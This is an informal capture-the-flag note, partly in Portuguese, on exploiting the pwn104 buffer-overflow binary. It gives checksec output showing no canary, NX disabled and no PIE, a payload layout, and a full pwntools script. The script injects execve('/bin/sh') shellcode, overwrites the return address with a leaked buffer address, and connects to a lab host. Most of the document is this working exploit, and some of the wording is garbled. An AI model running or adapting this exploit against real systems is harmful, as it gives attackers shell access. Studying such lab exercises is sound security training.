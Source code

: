 BufferOverflow

Command file:


```bash

file pwn104.pwn104 
pwn104.pwn104: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=60e0bab59b4e5412a1527ae562f5b8e58928a7cb, for GNU/Linux 3.2.0, not stripped

```

Command checksec:

```
 checksec --file=pwn104.pwn104 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   46 Symbols        No    0               2               pwn104.pwn104
```

exploit:

Overflow we can manage to hijack this program execution flow by overwriting the main return address and of jumping to any given function as we did in previous video we will jump straight to our shellcode...


How can we know the address of our buffer during the execution ?
how can we lick its address?

Porque o Nx esta disable entao podes correr um reverse shell



Address Space Layout Randomization (ASLR)
```bash
ldd pwn104.pwn104 
```

funcao ***read()*** le bytes 

```
 0x00000000004011cd <+0>:     push   %rbp
   0x00000000004011ce <+1>:     mov    %rsp,%rbp
   0x00000000004011d1 <+4>:     sub    $0x50,%rsp
   0x00000000004011d5 <+8>:     mov    $0x0,%eax
   0x00000000004011da <+13>:    call   0x401156 <setup>

```

Attack 


buffer = 0x50

payload = shellcode + b"A" *(0x50 - len(shellcode)) + b"B" * 0x8 + stack _memory_ASLR_do_pointer_para_a_variavel_0x50

exploit:

```python
from pwn import *

  

context.binary = binary = "./pwn104.pwn104"

context.log_level = "debug"

  

#from http://222.exploit-db.com/eploits/46907

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

  

#p = process()

  

p =remote("10.10.220.181", 9004)

  

p.recv()

output = p.recv()

  
#lick the address
buffer_address = int(output.split(b"at")[1].strip().decode("utf-8"),16)

  

payload = shellcode + b"A"*( 0x50 - len(shellcode)) + b"B" * 0x8 + p64(buffer_address)

  

p.sendline(payload)

  

p.interactive()
  
```

TypeError: can only concatenate str (not "bytes") to str
- acrecent b to shellcode

IndexError: list index out of range
- contex.log_level = "debug"
- p.recv()